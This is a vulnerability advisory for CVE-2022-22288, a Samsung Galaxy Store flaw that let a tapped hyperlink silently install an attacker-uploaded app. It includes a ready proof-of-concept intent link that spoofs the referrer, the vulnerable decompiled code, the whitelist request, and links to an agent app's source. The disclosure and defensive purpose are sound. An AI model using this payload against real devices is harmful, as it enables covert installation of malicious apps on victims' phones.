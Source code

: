 ```yaml
---
layout: page
title: CVE-2022-22288 Details
permalink: /cves/cve-2022-22288
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/](https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/)

|    **Product**    | Galaxy Store prior to version 4.5.36.5 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-22288             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store application contained an issue with how it handled browsable intents. Additionally, it was possible to upload a malicious application to the Galaxy App Store and have Samsung host the application. If a user was convinced to tap an attacker controlled hyperlink, the uploaded malicious application would have been automatically installed onto the victim's device without consent. 

## The Exploit

The following hyperlink could have been used to abuse a browsable intent in the Samsung Galaxy App Store application. This link would install a malicious application that has hijacked the namespace of a whitelisted application on the Samsung App Store. An attacker can host this link from any web server:

```
<a id="yayidyay" rel="noreferrer" href="intent://apps.samsung.com/appquery/appDetail.as?
appId=live.hatch.russa&directInstall=true&installReferrer=yayreferreryay&directOpen=true&
simpleMode=true#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;
scheme=http;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
```

## Technical Details

The malicious application that would have been installed is Boops Boops, a re-skinned Drozer application. This issue occurs due to a bug in the Samsung Galaxy App Store (`com.sec.android.app.samsungapps`) class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra`:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

* `isDirectInstall` is taken from the browsable intent query parameter `directInstall` and returns either True or False
* `getSender` is either the package name or the website URL that sent the browsable intent, which is retrieved from the intent string extra `sender` (this intent extra is added or modified in intents by the Android OS when an intent is sent from one application to another)
* `getDetailID` is taken from the browsable intent query parameter `appId`
* `enableDDI` code is below:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

* `isGalaxyStore` returns true if the intent sender package name was `com.sec.android.app.samsungapps` or if the website that sent the browsable intent was `http://com.sec.android.app.samsungapps`
* `isWhiteListAppForOneClick` returns true if the target package name is in a Samsung controlled whitelist

The intent sender package name can be set by an attacker via the intent string extra `android.intent.extra.REFERRER_NAME=com.sec.android.app.samsungapps`. Without this intent string extra, `isGalaxyStore` would return false since the intent sender would have been a different value, such as the attacker's website URL.

The Samsung controlled whitelist is obtained by the Galaxy Store application via the following POST request:

```
POST /ods.as?reqId=2355 HTTP/1.1
Accept: image/webp
Content-Type: text/plain; charset=UTF-8
User-Agent: Dalvik/2.1.0 (Linux; U; Android 11; SM-G991B Build/RP1A.200720.012)
Host: us-odc.samsungapps.com
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 952
 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<SamsungProtocol networkType="0" version2="3" lang="EN" openApiVersion="30" deviceModel="SM-G991B" deviceMakerName="samsung" 
deviceMakerType="0" mcc="310" mnc="00" csc="XME" odcVersion="4.5.30.5" scVersion="1000000" 
storeFilter="themeDeviceModel=SM-G991B_TM||OTFVersion=11010001||gearDeviceModel=SM-G991B_SM-R800||gOSVersion=4.0.0"
supportFeature="ARW||AOD" version="6.8" filter="1" odcType="01" cacheVersion="1" systemId="<redacted>" sessionId="<redacted>" 
logId="<redacted>" deviceFeature="locale=en_US||abi32=armeabi-v7a:armeabi||abi64=arm64-v8a" userMode="0">
<request name="whiteAppInfo" id="2355" numParam="4" transactionId="<redacted>"><param name="accountCountry">
USA</param><param name="guestDownloadInfo">Y</param><param name="accountMcc">310</param><param name="requestTypeCode">0</param>
</request></SamsungProtocol>
```

The whitelist is found in the response parameter popupDownloadAppList:

```
...
<value name="popupDownloadAppList">mobi.abcmouse.samsung||com.audible.application.samsung||com.booking.forsamsung||com.cnn.mobile.android.phone|
|com.golfnow.android.samsung.teetimes||com.scribd.app.samsung||com.shazam.android||com.shutterfly.samsung||com.skimble.workouts||me.swiftgift.swiftgift.samsung|
|com.weather.samsung||com.touchofmodern.samsung||com.tubitv.samsung||com.ua.shop.samsung||com.yelp.android||com.aaptiv.android.samsung|
|com.lifesum.madeforsamsung||com.getliner.Liner||com.vsco.cam.samsung||com.rosettastone.madeforsamsung.courseplayer||com.aita||com.degoo.android.samsung|
|com.adobe.reader||com.samsung.m4sscreen||com.adobe.premiererush.videoeditor.samsung||live.hatch.russa||jp.gocro.smartnews.android|
|com.getsomeheadspace.android||com.viewbug.viewbug||com.postmates.android||com.getaround.android</value>
...
```

It was found that the package name `live.hatch.russa` was on the Samsung white list, but that package did not exist on the Samsung App Store itself. F-Secure deployed their custom re-skinned Drozer application called "Boops Boops" to the Samsung App Store with the package name `live.hatch.russa`:

<div align="center">
    <img src="/assets/my_cves/cve-2022-22288_1.png">
</div>

Source code for the Boops Boops application can be found here: [https://github.com/Yogehi/boops-boops-android-agent](https://github.com/Yogehi/boops-boops-android-agent)

Source code for the Boops Boops Docker Container which can be used to interact with Boops Boops can be found here: [https://github.com/Yogehi/boops-boops-docker-container](https://github.com/Yogehi/boops-boops-docker-container)


## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.5 which addresses this issue. Additionally, F-Secure has attempted to re-upload Boops Boops with the package name `live.hatch.russa` several times to the Galaxy Store, and it now gets taken down due to a copyright warning.

<div align="center">
    <img src="/assets/my_cves/cve-2022-22288_2.png">
</div>

Users should still update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   01/11/2021   | Issue disclosed to Samsung Mobile Security |
|   01/11/2021   | Issue assigned to a Samsung Security Analyst |
|   01/12/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   03/01/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   04/01/2022   | CVE Assigned |
|   04/01/2022   | Advisory Published |